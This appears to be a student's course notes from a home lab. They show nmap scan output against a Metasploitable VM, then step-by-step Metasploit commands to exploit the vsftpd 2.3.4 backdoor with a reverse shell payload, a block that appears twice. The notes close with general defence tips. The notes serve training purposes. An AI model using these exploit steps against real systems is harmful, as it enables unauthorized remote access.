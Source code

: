 - Course Link | [Link](https://www.udemy.com/course/cyber-kill-chain-from-attack-to-defense-in-cybersecurity)

---
- Got 2 VMs : One Kali linux and another metasploit, make sure the network adapter is same for both

```
┌──(root㉿kali)-[~]
└─# nmap -sS 192.168.0.179 -T5
Starting Nmap 7.95 ( https://nmap.org ) at 2025-10-06 07:02 EDT
Nmap scan report for 192.168.0.179
Host is up (0.00071s latency).
Not shown: 977 closed tcp ports (reset)
PORT     STATE SERVICE
21/tcp   open  ftp
22/tcp   open  ssh
23/tcp   open  telnet
25/tcp   open  smtp
53/tcp   open  domain
80/tcp   open  http
111/tcp  open  rpcbind
139/tcp  open  netbios-ssn
445/tcp  open  microsoft-ds
512/tcp  open  exec
513/tcp  open  login
514/tcp  open  shell
1099/tcp open  rmiregistry
1524/tcp open  ingreslock
2049/tcp open  nfs
2121/tcp open  ccproxy-ftp
3306/tcp open  mysql
5432/tcp open  postgresql
5900/tcp open  vnc
6000/tcp open  X11
6667/tcp open  irc
8009/tcp open  ajp13
8180/tcp open  unknown
MAC Address: 00:0C:29:07:EE:86 (VMware)

Nmap done: 1 IP address (1 host up) scanned in 0.61 seconds
```


- nmap -sS 192.168.0.179 -T5, here:

    - sS : SYN scan, also known as half-open scanning, is a popular and stealthy method for identifying open ports on a target system. It works by sending SYN packets to the target ports and analyzing the responses. If a port is open, the target responds with a SYN-ACK packet, indicating that it is ready to establish a connection. If the port is closed, the target responds with a RST (reset) packet. If there is no response, the port is considered filtered or blocked by a firewall.

    - T5 : This option sets the timing template for the scan, with T5 being the fastest and most aggressive setting. It reduces the time between probes and increases the number of concurrent probes, which can speed up the scan significantly. However, it also increases the likelihood of detection by intrusion detection systems (IDS) and firewalls, as well as the risk of overwhelming the target system.

    - O: This option enables OS detection, which attempts to determine the operating system running on the target host based on various characteristics of the responses received during the scan. Nmap uses a database of known OS fingerprints to match against the observed behavior of the target system. This information can be useful for identifying potential vulnerabilities and tailoring further attacks.

    - sV: This option enables version detection, which attempts to determine the version of the services running on the open ports identified during the scan. Nmap sends additional probes to the open ports and analyzes the responses to extract version information. This can help identify specific software versions that may have known vulnerabilities, allowing for more targeted exploitation.

- After finding the open ports, we can use metasploit to exploit the vulnerabilities in the target system. Here are the steps to follow:

1. Start the Metasploit console by typing `msfconsole` in the terminal.
2. Use the `search` command to find an exploit for one of the open ports. For example, to search for an exploit for the FTP service running on port 21, type `search ftp`.
3. Select an exploit by typing `use <exploit_name>`. For example, to use the vsftpd 2.3.4 backdoor exploit, type `use exploit/unix/ftp/vsftpd_234_backdoor`.

4. Set the target IP address by typing `set RHOST <target_ip>`. For example, to set the target IP address to `192.168.0.179`, type `set RHOST 192.168.0.179`.
5. Set the payload by typing `set PAYLOAD <payload_name>`. For example, to use the reverse shell payload, type `set PAYLOAD cmd/unix/reverse`.
6. Set the local IP address and port for the reverse shell by typing `set LHOST <local_ip>` and `set LPORT <local_port>`. For example, to set the local IP address to `192.168.0.100` and the local port to `4444`, type `set LHOST 192.168.0.100` and `set LPORT 4444`.
7. Type `exploit` to launch the exploit. If successful, you should see a message indicating that a session has been opened.
8. Type `sessions` to list the active sessions. You should see a session with a unique ID.
9. Type `sessions -i <session_id>` to interact with the session. For example, to interact with session 1, type `sessions -i 1`.
10. You should now have a command prompt on the target system. You can use various commands to explore the system and gather information.
- To find the vulnerabilities in the target system, we can use various tools such as Nmap, OpenVAS, and Nessus. Here are the steps to follow:

1. Use Nmap to perform a more detailed scan of the target system by typing `nmap -sV -O <target_ip>`. This will provide information about the services running on the open ports and the operating system of the target system.
2. Use OpenVAS to perform a vulnerability scan of the target system. OpenVAS is an open-source vulnerability scanner that can identify known vulnerabilities in the target system. To use OpenVAS, you need to install it on your Kali Linux machine and configure it to scan the target system.
3. Use Nessus to perform a vulnerability scan of the target system. Nessus is a commercial vulnerability scanner that can identify known vulnerabilities in the target system. To use Nessus, you need to install it on your Kali Linux machine and configure it to scan the target system.
- After finding the vulnerabilities, we can use Metasploit to exploit them. Here are the steps to follow:
1. Start the Metasploit console by typing `msfconsole` in the terminal.
2. Use the `search` command to find an exploit for one of the vulnerabilities. For example, to search for an exploit for the vsftpd 2.3.4 vulnerability, type `search vsftpd`.
3. Select an exploit by typing `use <exploit_name>`. For example, to use the vsftpd 2.3.4 backdoor exploit, type `use exploit/unix/ftp/vsftpd_234_backdoor`.
4. Set the target IP address by typing `set RHOST <target_ip>`. For example, to set the target IP address to `192.168.0.179`, type `set RHOST 192.168.0.179`.
5. Set the payload by typing `set PAYLOAD <payload_name>`. For example, to use the reverse shell payload, type `set PAYLOAD cmd/unix/reverse`.
6. Set the local IP address and port for the reverse shell by typing `set LHOST <local_ip>` and `set LPORT <local_port>`. For example, to set the local IP address to `192.168.0.100` and the local port to `4444`, type `set LHOST 192.168.0.100` and `set LPORT 4444`.
7. Type `exploit` to launch the exploit. If successful, you should see a message indicating that a session has been opened.
8. Type `sessions` to list the active sessions. You should see a session with a unique ID.
9. Type `sessions -i <session_id>` to interact with the session. For example, to interact with session 1, type `sessions -i 1`.
10. You should now have a command prompt on the target system. You can use various commands to explore the system and gather information.
- To defend against cyber attacks, we can use various techniques such as firewalls, intrusion detection systems (IDS), and intrusion prevention systems (IPS). Here are the steps to follow:
1. Use a firewall to block unauthorized access to the network. A firewall can be configured to allow only specific types of traffic and block all other traffic.
2. Use an IDS to monitor network traffic for suspicious activity. An IDS can be configured to alert the administrator when it detects a potential attack.
3. Use an IPS to block suspicious activity in real-time. An IPS can be configured to automatically block traffic that matches specific patterns or signatures.
- Make sure to keep the systems and software up to date with the latest security patches. This can help to prevent known vulnerabilities from being exploited.
- Use strong passwords and multi-factor authentication to protect user accounts. This can help to prevent unauthorized access to the system.
- Regularly back up important data to prevent data loss in the event of a cyber attack. This can help to ensure that critical information is not lost in the event of a ransomware attack or other type of cyber attack.

- Look for Resources folder for more

- Certificate [Link](Introduction%20In%20Cyber%20Attack%20For%20Beginners.pdf)